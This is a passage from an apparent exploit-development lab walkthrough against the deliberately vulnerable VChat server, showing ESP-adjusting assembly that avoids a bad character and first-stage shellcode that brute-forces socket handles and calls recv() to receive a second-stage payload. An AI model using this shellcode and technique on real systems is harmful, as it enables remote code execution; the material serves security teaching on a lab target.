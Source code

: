 		<img src="Images/I49.png" width=600>

		* Notice that in the subtraction instruction's machine code `\x66\x2d\xa8\x0d` we have an invalid character `a8`! This means we need to modify the program to perform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to perform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		```
	3. Edit your exploit to reflect [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and run the exploit to ensure it works!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/507e8fe0-f90a-4ae2-80cb-7fe00fc86efe

      1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			<img src="Images/I16.png" width=600>

      2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			<img src="Images/I26.png" width=600>

      3. Run [exploit12a-MULT.py](./SourceCode/exploit12a-MULT.py), and pass the exception to the VChat program.

			<img src="Images/I50.png" width=600>

2. Now we can create the first stage shellcode that we will inject into the VChat server. The source assembly is contained in [shellcode.asm](./SourceCode/shellcode.asm) and is discussed in more detail in the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit. In this case, the address of `recv(...)` (`0x776A23A0`) contained a bad character `0xA0`, but due to the use of an encoder, we do not have to worry about this.

	```
	sub esp,0x02            ; Move ESP pointer above our initial buffer to avoid
							; overwriting our shellcode
	xor edi,edi             ; Zero out EDI (Anything XORed with itself is 0)
	socket_loop:            ; Brute Force Loop Label
	xor ebx,ebx             ; Zero out EBX (Anything XORed with itself is 0)
	push ebx                ; Push 'flags' parameter = 0
	add bh,0x4              ; Make EBX = 0x00000400 which is  1024 bytes
	push ebx                ; Push `len` parameter, this is 1024 bytes
	mov ebx,esp             ; Move the current pointer of ESP into EBX
	add ebx,0x64            ; Point EBX the original ESP to make it the pointer to
							; where our stage-2 payload will be received (And fallen into)
	push ebx                ; Push `*buf` parameter = Pointer to ESP+0x64
	inc edi                 ; Make EDI = EDI + 1
	push edi                ; Push socket handle `s` parameter = EDI, For each loop we increment EDI
	mov eax,0x776A23A0      ; We need to make EAX = 0x776A23A0 but this contains a bad character
	call eax                ; Call recv()
	test eax,eax            ; Check if our recv() call was successfully made
	jnz socket_loop         ; If recv() failed, jump back to the socket loop where
							; EDI will be increased to check the next socket handle
	```